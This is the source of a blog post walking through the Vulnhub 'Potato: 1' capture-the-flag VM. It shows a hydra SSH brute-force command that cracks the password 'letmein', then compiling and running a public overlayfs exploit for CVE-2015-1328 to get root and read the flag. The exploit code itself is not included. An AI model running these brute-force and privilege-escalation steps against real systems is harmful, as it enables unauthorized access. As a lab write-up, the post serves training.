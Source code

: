 ```yaml
---
layout: post
title:  "Vulnhub - Potato: 1"
date:   2020-09-16 20:00:00 +1000
category: hacking
---
```


## Introduction
*Difficulty: Easy to Medium  
Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)   
Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).*

This is another box from the same people who made Chili and Cherry, but it's rated easy to medium rather than just easy, so presumably it's a little more challenging.

## nmap
This time we get just two ports, 80 and 7120. 80 is HTTP, and 7120 is running SSH. 

Enumerating the webserver doesn't turn up anything except */info.php* which displays **phpinfo**. By itself; not useful.

# SSH
Welp, let's bruteforce SSH then lol:

{% highlight shell %}
root@kali:/opt/vulnhub/potato# hydra -s 7120 -l potato -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 192.168.1.82 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-16 10:58:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking ssh://192.168.1.82:7120/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 9823 to do in 00:56h, 16 active
[7120][ssh] host: 192.168.1.82   login: potato   password: letmein
1 of 1 target successfully completed, 1 valid password found
{% endhighlight %}

That was pretty easy, so presumably it's what we were supposed to do.

## Privesc
Once we SSH in as *potato* we run linpeas as usual; we are on an older Ubuntu build here and it highlights our kernel (3.13.0) as vulnerable. Googling around we find [this](https://www.exploit-db.com/exploits/37292), an exploit for **CVE-2015-1328**, a Local Privilege Escalation vulnerability in 'overlayfs'. I wonder if it works?

{% highlight shell %}
potato@ubuntu:/dev/shm$ nano ofs.c -> code pasted here
potato@ubuntu:/dev/shm$ gcc ofs.c 
potato@ubuntu:/dev/shm$ ./a.out 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
# cd /root
# find proof.txt
proof.txt
# cat proof.txt
SunCSR.Team.Potato.af6d45da1f1181347b9e2139f23c6a5b
{% endhighlight %}

Well, that's a yes it does. Still falls in the easy category for mine. The next one will probably kick my butt.
